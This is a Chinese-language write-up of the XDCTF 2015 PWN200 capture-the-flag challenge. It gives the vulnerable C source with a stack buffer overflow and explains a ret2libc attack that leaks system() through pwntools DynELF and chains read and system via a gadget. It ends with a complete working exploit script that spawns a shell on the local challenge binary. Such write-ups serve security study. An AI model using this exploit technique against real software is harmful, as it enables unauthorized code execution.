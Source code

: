 ## XDCTF 2015 PWN200
--------------------------------------------------
### 一. 源码(自己敲出来的)
```
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int vuln(){
    char buf[80];
    setbuf(stdin, buf);
    return read(0, buf, 256);
}

int main(int argc, char** argv){
    char* welcome = "Welcome to XDCTF2015 ~!\n";
    setbuf(stdout, welcome);
    write(1, welcome, strlen(welcome));
    vuln();
    return 0;
}

```
检查一下保护:

![result](./02.png)

结论: **只有NX保护**， so我们不能往`shellcode`方向思考了，要向`system("/bin/sh")`。

### 二. 分析
**思路**: 泄露`system`函数地址，发送`/bin/sh`, 执行。
**问题一**: 如何泄露`system`地址?
>答: 使用`pwntools`模块`DynELF`
```
from pwn import *

p = process('./pwn200')
elf = ELF('./pwn200')
write = elf.plt['write']
read  = elf.plt['read']
bss = elf.bss(0x2C)
main = 0x80484be
pppt = 0x0804856c
offset = 112

def leak(address):
  #各种预处理
  payload = "A" * 112 + p32(write) + p32(main) + p32(1) + p32(address) + p32(4)
  p.send(payload)
  #各种处理
  data = p.recv(4)
  log.debug("%#x => %s" % (address, (data or '').encode('hex')))
  return data
d = DynELF(leak, elf = elf)      #初始化DynELF模块 
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
**问题二**: 如何发送`/bin/sh?`
> 构造类似的`payload`
```
payload = 'A' * 112 + p32(read) + p32(pppt) + p32(0) + p32(bss) + p32(0x2C) + p32(systemAddress) + p32(main) + p32(bss)
```
**问题三**: `pppt是干什么的?如何获得?`
> `pppt`是为了弹出`read`的三个参数，执行后面的`system`函数.
![](./03.png) 
### EXP
```
from pwn import *

p = process('./pwn200')
elf = ELF('./pwn200')
write = elf.plt['write']
read  = elf.plt['read']
bss = elf.bss(0x2C)
main = 0x80484be
pppt = 0x0804856c
offset = 112

def leak(address):
    p.recvuntil('Welcome to XDCTF2015~!\n')
    payload = "A" * 112 + p32(write) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data
d = DynELF(leak, elf = elf)
systemAddress = d.lookup('system', 'libc')
payload = 'A' * 112 + p32(read) + p32(pppt) + p32(0) + p32(bss) + p32(0x2C) + p32(systemAddress) + p32(main) + p32(bss)
p.send(payload)
payload = "/bin/sh\00"
p.send(payload)
p.interactive()

```
